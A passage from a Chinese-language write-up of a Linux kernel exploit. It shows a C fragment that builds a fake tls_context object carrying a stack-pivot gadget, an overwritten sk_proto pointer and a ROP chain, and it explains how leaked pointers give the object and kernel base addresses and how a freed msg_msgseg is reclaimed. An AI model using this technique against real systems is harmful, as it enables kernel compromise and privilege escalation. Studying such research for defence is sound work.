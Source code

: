 ```plain
#define SK_PROTO_OFF (136)
    /* Prepare sk_proto overwrite, getsockopt() overwrite,
     * stack pivot, and ROP chain contents. */
    char *spray = (char *)mgr->spray;
    prepare_rop(&spray[8], kernel_base);
    *(uint64_t*)&spray[GETSOCKOPT_OFF] = kernel_base + STACK_PIVOT_OFF;;
    *(uint64_t*)&spray[SK_PROTO_OFF] = tls_context;

    ...

    return SUCC;
}
```

最后，我们提取出所有需要的信息，计算我们要用来覆盖`tls_context`对象的数据，为了更详细地说明此函数，我们分为两个阶段：

*   泄漏`tls_context`数据：
    *   `tls_context`列表头的 next 指针地址，这使我们能够通过从`list.next`中减去 0x98 来计算`tls_context`的地址，
    *   存储在`sk_proto`中的`tcp_prot`地址，这允许我们通过从`&tcp_prot`中减去 0x180b660 来计算内核基地址，
*   准备伪造的 tls\_context 数据：
    *   为了使用一组 ROP 小工具覆盖`tls_context`的一部分，
    *   覆盖`sk_proto`为`tls_context`地址，因此，现在`tls_context`对象的一部分包含了我们的虚假`proto`对象，
    *   使用一个栈旋转小工具的地址覆盖`sk_proto->getsockopt()`，请记住，由于某种魔法，`sk_proto == &tls_context`，虚假栈将从`tls_context`对象内部开始，具体来说就是我们编写 ROP 链的地方，  
        然后，我们将用我们的虚假`tls_context`重新分配以前被释放的`msg_msgseg`

[![](assets/1701612436-03b99833a3e78598646ffab864bb7a89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230626154734-b6775c72-13f5-1.png)

正如我们所看到的，`tls_context`对象扮演了多个角色，它部分地是一个实现我们的堆栈旋转`getsockopt()`的虚假`proto`对象，它还部分地是一个虚假的堆栈，其中包含 ROP 链，

## 代码执行
